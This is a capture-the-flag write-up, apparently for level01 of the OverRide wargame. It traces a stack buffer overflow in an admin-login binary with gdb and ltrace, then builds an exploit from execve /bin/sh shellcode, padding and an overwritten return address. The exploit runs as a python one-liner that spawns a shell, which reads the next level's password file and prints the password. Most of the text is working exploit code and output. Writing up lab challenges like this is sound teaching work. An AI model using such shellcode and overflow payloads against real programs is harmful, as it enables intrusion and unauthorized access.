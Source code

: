 # Level 01

Once logged in, you will see a binary.

```
$ ssh localhost -p 4444 -l level01
	   ____                  ____  _     __
	  / __ \_   _____  _____/ __ \(_)___/ /__
	 / / / / | / / _ \/ ___/ /_/ / / __  / _ \
	/ /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
	\____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on localhost:4242
level01@localhost's password:

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level01/level01
level01@OverRide:~$ ls
level01
level01@OverRide:~$
```

Let's run the program.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: admin
verifying username....

nope, incorrect username...

level01@OverRide:~$
```

We don't know how the program works, so let's take a look at the binary.

```
GNU gdb (Ubuntu/Linaro 7.4-2012.04-0ubuntu2.1) 7.4-2012.04
Copyright (C) 2012 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
For bug reporting instructions, please see:
<http://bugs.launchpad.net/gdb-linaro/>...
Reading symbols from /home/users/level01/level01...(no debugging symbols found)...done.

gdb-peda$ info functions
All defined functions:

Non-debugging symbols:
[...]
0x08048464  verify_user_name
0x080484a3  verify_user_pass
0x080484d0  main
[...]
gdb-peda$ info variables
[...]
0x0804a040  a_user_name
```

We see there are functions, and global variable declared. By decompiling the source, we at least have an idea what the username and password are: `"dat_wil"` and `"admin"`. Even with the "correct" username and password, we still haven't captured the flag.

```
level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

level01@OverRide:~$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
aaaaaaaaaaaaaaaa
nope, incorrect password...

level01@OverRide:~$
```

Checking the source again, it appears that the second call to `fgets` reads in more bytes (`0x64` = 100) than the buffer's declared size (`0x40` = 64).

Let's try a [buffer overflow pattern generator](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to see if we can overwrite the `EIP` register for when it returns from `fgets`. This would allow us to insert a [shellcode](http://shell-storm.org/shellcode/files/shellcode-811.php) into memory through user input and then return to it by modifying the `EIP` register with input as well.

This is the PETA GDB output after inputting the username `"dat_wil"` and a 200-character buffer overflow pattern (see link above). Note the `EIP` register that has been overwritten by `0x37634136` (`"6Ac7"` as a string)

Inputs:
```
dat_wil
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
                                                                                ^ 81 characters in (therefore an offset of 80)
```

PETA GDB output:
```
[----------------------------------registers-----------------------------------]
EAX: 0x1
EBX: 0x33634132 ('2Ac3')
ECX: 0xffffffff
EDX: 0xf7fd08b8 --> 0x0
ESI: 0x0
EDI: 0x41346341 ('Ac4A')
EBP: 0x63413563 ('c5Ac')
ESP: 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
EIP: 0x37634136 ('6Ac7')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x37634136
[------------------------------------stack-------------------------------------]
0000| 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
0004| 0xffffd724 ("c9Ad0Ad1Ad2")
0008| 0xffffd728 ("0Ad1Ad2")
0012| 0xffffd72c --> 0x326441 ('Ad2')
0016| 0xffffd730 --> 0x0
0020| 0xffffd734 --> 0xffffd71c ("6Ac7Ac8Ac9Ad0Ad1Ad2")
0024| 0xffffd738 --> 0xffffd7bc --> 0xffffd8f5 ("TERM=xterm-256color")
0028| 0xffffd73c --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x37634136 in ?? ()
gdb-peda$ stack
0000| 0xffffd720 ("Ac8Ac9Ad0Ad1Ad2")
0004| 0xffffd724 ("c9Ad0Ad1Ad2")
0008| 0xffffd728 ("0Ad1Ad2")
0012| 0xffffd72c --> 0x326441 ('Ad2')
0016| 0xffffd730 --> 0x0
0020| 0xffffd734 --> 0xffffd71c ("6Ac7Ac8Ac9Ad0Ad1Ad2")
0024| 0xffffd738 --> 0xffffd7bc --> 0xffffd8f5 ("TERM=xterm-256color")
0028| 0xffffd73c --> 0x0

```

The last thing we need to create the exploit input is the address where our shellcode will start. We find this by looking at where `fgets` stores the input during its second call (`0xffffd6ec`). (Note: in testing, we've found that this address can change if you run the command on different machines. If this address doesn't work, you can recalculate it with the following `ltrace` function)

```
level01@OverRide:~$ ltrace ./level01 2> /tmp/ltrace.txt   # NOTE: sending ltrace output to a temp file
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
nope, incorrect password...

level01@OverRide:~$ cat /tmp/ltrace.txt
__libc_start_main(0x80484d0, 1, -10284, 0x80485c0, 0x8048630 <unfinished ...>
puts("********* ADMIN LOGIN PROMPT ***"...)                     = 39
printf("Enter Username: ")                                      = 16
fgets("dat_wil\n", 256, 0xf7fcfac0)                             = 0x0804a040
puts("verifying username....\n")                                = 24
puts("Enter Password: ")                                        = 17
fgets("Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab"..., 100, 0xf7fcfac0)   = 0xffffd6ec
puts("nope, incorrect password...\n")                           = 29
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
```

Here's the steps we used to get to our final exploit.

First step:

```
dat_wil    # the username that we found by disassembling verify_user_name()
[  shellcode  ] + [  padding up to 80 chars  ] + [  address  ]
```

Next step:

```
dat_wil
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B" * [  offset (80) - length of first (28) - 52  ] + [  `0xffffd6ec` in the correct endian-ness  ]
```

And now in Python:
```
python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)'
```

And now as a command:

```
(python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)' ; cat -) | ./level01
```

And now in action:
```
level01@OverRide:~$ (python -c 'import struct; print "dat_wil\n" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*52 + struct.pack("I", 0xffffd6ec)' ; cat -) | ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: verifying username....

Enter Password:
nope, incorrect password...

cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
